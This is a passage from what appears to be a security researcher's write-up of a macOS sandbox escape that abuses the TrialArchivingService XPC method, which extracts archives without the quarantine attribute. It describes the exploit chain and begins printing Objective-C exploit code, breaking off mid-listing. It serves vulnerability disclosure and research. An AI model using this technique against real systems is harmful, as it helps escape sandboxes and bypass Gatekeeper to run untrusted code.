 It helps to extract an archive file passed from a sandboxed application to a specified location. However, it **doesn’t pass the quarantine extended attribute to the extracted content**.

### The exploit and demo

There is a small challenge to exploit the issue. 

By abusing the XPC method, the macho file in the archive will lose the **executable (X)** permission after the extraction. So the extracted application cannot be launched directly. Then I came up with a similar vulnerability to overcome this challenge: [CVE-2021-30990](https://breakpoint.sh/posts/bypassing-the-macos-gatekeeper) can be exploited not only to bypass the gatekeeper, but also to escape the application sandbox. The trick to that exploit is to use symlink rather than the macho file itself.

Then I encountered another new challenge:

<img src="../res/2024-11-7-A-New-Era-of-macOS-Sandbox-Escapes/image-20241020113237752.png" alt="image-20241020113237752" style="zoom:50%;" />

This XPC method only supports to extract **directories** and **regular files**, and does not allow extracting **symlink** from the archive.

To overcome the new challenge, I extract the payload application to the sandboxed **app container path**, where the sandboxed app has the read and write permission. (Luckily, the service sandbox profile is not too strict here.) Next, I can create the symlink from the sandboxed application directly, or just assign the executable permission to the extracted macho by calling the API `chmod`.

(Another simple solution is to archive the payload application twice. Abusing the vulnerable XPC method to unpack the external zip file and then using the system `open` command to unpack the inner zip file.)

The exploit code is as follows:

```
@protocol TrialArchivingServiceProtocol <NSObject>
- (void) extractArchiveFromHandle:(NSFileHandle *)archiveHandle withArchiveName:(NSString *)archiveName toDirectory:(NSURL *)dstURL destDirExtension:(NSString *)destDirToken postExtractionCompression:(unsigned long long)post completion:(void (^)(unsigned char))reply;
@end

void exploit_TrialArchivingService(void) {
    [[NSBundle bundleWithURL:[NSURL fileURLWithPath:@"/System/Library/PrivateFrameworks/TrialServer.framework"]] load];
    NSXPCConnection *connection = [[NSXPCConnection alloc] initWithServiceName:@"com.apple.trial.TrialArchivingService"];
    connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(TrialArchivingServiceProtocol)];
```
